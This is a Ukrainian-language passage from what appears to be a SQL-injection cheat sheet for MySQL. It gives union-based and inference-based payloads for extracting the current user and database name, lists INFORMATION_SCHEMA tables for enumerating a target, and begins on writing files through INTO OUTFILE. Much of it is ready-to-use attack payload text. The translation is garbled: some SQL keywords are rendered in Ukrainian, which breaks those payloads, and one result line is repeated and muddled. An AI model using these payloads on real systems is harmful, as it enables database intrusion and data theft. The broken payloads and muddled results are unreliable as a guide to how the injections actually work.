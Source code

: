 В ін'єкції діапазону

**1 І 1=0 UNION SELECT USER()**

Інференційна ін'єкція:

**1 AND USER() like 'root%'**.

Відповідь буде містити щось на кшталт

**user@hostname**

### Ім'я бази даних, що використовується
Існує нативна функція **DATABASE()**

В ін'єкції діапазону:

**1 ТА 1=0 UNION SELECT DATABASE()**

Інференційна ін'єкція:

**1 AND DATABASE() like 'db%'** Очікуваний результат, рядок на кшталт 'db%'.

Очікуваний результат, Рядок на зразок цього:

_**dbname**_

### INFORMATION_SCHEMA
У MySQL 5.0 було створено подання INFORMATION_SCHEMA. Воно дозволяє нам отримати всю інформацію про бази даних, таблиці та стовпці, а також процедури та функції.

| Tables_in_INFORMATION_SCHEMA | DESCRIPTION                               |
|------------------------------|-------------------------------------------|
| SCHEMATA                     | Усі бази даних, на які користувач має (принаймні) SELECT_priv |
| SCHEMA_PRIVILEGES            | Привілеї, які користувач має для кожної БД |
| TABLES                       | Усі таблиці, на які користувач має (принаймні) SELECT_priv |
| TABLE_PRIVILEGES             | Привілеї, які користувач має для кожної таблиці |
| COLUMNS                      | Усі стовпці, на які користувач має (принаймні) SELECT_priv |
| COLUMN_PRIVILEGES            | Привілеї, які користувач має для кожного стовпця |
| VIEWS                        | Усі відображення, на які користувач має (принаймні) SELECT_priv |
| ROUTINES                     | Процедури та функції (потрібний EXECUTE_priv) |
| TRIGGERS                     | Тригери (потрібний INSERT_priv) |
| USER_PRIVILEGES              | Привілегії, що має підключений користувач |

## Вектори атаки
### Запис у файл
Якщо підключений користувач має привілеї **FILE** і одинарні лапки не екрануються, то речення **into outfile** можна використовувати для експорту результатів запиту у файл.
